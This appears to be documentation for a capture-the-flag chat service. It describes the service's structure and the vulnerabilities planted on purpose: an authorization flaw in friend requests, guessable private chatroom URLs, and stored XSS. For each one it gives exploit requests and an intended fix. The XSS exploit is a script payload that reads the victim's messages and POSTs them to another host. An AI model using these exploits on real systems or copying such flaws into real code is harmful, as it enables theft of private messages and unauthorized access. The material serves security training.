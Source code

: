 Service documentation
======================
# Service Structure
![Service Structure](Service%20Structure.svg)  

Register, Login requests and the home page are handled by the server.js. All other requests are routed to separate controllers. The controllers use models to interact with the database. The views are rendered using ejs templates.
# Functionality
- Chatrooms
- Private Messages
- Friend Requests
- Profiles
- Profile Posts
# Vulnerabilities
## Access to private chatrooms
### Insecure URL generation

- Category: Misconfiguration
- Difficulty: Easy

Using the name of a private chatroom, it is possible to join the chatroom.
### Friend requests

- Category: Authorization
- Difficulty: Easy

Friend requests can be sent or accepted by anyone. This allows anyone to view any profile and see which chatrooms they are a member of.
### Exploit
    post http://localhost:3000/friends/requests body: {"userName":"foo", "partner":"bar", "status": "send"}
    post http://localhost:3000/friends/requests body: {"userName":"bar", "partner":"foo", "status": "accept"}
    get http://localhost:3000/profile/bar
    get http://localhost:3000/chatrooms/secret
### Intended Fixes
1. Change URL generation to be independent of the chatroom name.
2. Add check that the user sending the friend request is the same as the userName in the request body. Also check that the user accepting the friend request is the same as the partner in the request body of the friend request initiation.
## Cross-Site Scripting (XSS)

- Category: XSS
- Difficulty: Medium

The unread private message popup is vulnerable to XSS. The message is not sanitized and can be used to execute arbitrary JavaScript code.
The checker uses a headless browser to retrieve the flag from the private messages, and will load through as many unread messages as possible.
### Exploit
    post http://localhost:3000/messages body: {"recipient":"foo", "message":"<script>function getText(){let text='';let messages = document.getElementsByClassName('message');for(let i = 0; i < messages.length; i++){text += messages[i].innerHTML;}return text; }fetch('http://localhost:6452/', {method: 'POST', body:'flag=' + getText(),headers: { 'Content-Type': 'application/x-www-form-urlencoded', },}); </script>"}
### Intended Fix
Change the ejs tag to '<%= unreadMessage.text%>' instead of '<%- unreadMessage.text%>' to sanitize the message.

